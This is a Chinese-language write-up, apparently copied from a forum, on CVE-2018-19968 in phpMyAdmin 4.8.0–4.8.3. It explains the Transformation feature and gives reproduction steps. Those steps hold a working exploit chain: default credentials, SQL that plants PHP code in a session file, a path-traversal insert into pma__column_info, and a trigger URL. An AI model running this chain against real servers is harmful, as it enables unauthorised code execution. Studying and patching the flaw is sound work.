





# （CVE-2018-19968）Phpmyadmin 文件包含漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3083](https://www.zhihuifly.com/t/topic/3083)

# （CVE-2018-19968）Phpmyadmin 文件包含漏洞

## 一、漏洞简介

Transformation是phpMyAdmin中的一个高级功能，通过Transformation可以对每个字段的内容使用不同的转换，每个字段中的内容将被预定义的规则所转换。比如我们有一个存有文件名的字段 ‘Filename’，正常情况下 phpMyAdmin 只会将路径显示出来。但是通过Transformation我们可以将该字段转换成超链接，我们就能直接在 phpMyAdmin 中点击并在浏览器的新窗口中看到这个文件。

通常情况下Transformation的规则存储在每个数据库的pma__column_info表中，而在phpMyAdmin 4.8.0~4.8.3版本中，由于对转换参数处理不当，导致了任意文件包含漏洞的出现。

## 二、漏洞影响

Phpmyadmin 4.8.0~4.8.3

## 三、复现过程

1、首先登陆进后台，这里默认是root, toor



2、创建数据库，并将PHP代码写入SESSION文件中

```
CREATE DATABASE foo;
CREATE TABLE foo.bar ( baz VARCHAR(100) PRIMARY KEY );
INSERT INTO foo.bar SELECT '<?php phpinfo(); ?>'; 
```

访问http://www.0-sec.org/chk_rel.php?fixall_pmadb=1&db=foo在数据库foo中生成phpMyAdmin的配置表。



将篡改后的Transformation数据插入表pma__columninfo中将sess_***中的***替换成你的会话ID，即COOKIE中phpMyAdmin的值，抓包查看session id，如下



```
INSERT INTO pma__column_info SELECT '1', 'foo', 'bar', 'baz', 'plop', 'plop', 'plop', 'plop', '../../../../../../../../tmp/sess_***','plop'; 
\#将sess_***中的***替换成你的会话ID，即COOKIE中phpMyAdmin的值 
```



然后访问

http://www.0-sec.org/tbl_replace.php?db=foo&table=bar&where_clause=1=1&fields_name[multi_edit][][]=baz&clause_is_unique=1 就能自动包含刚才插入数据库表的恶意代码

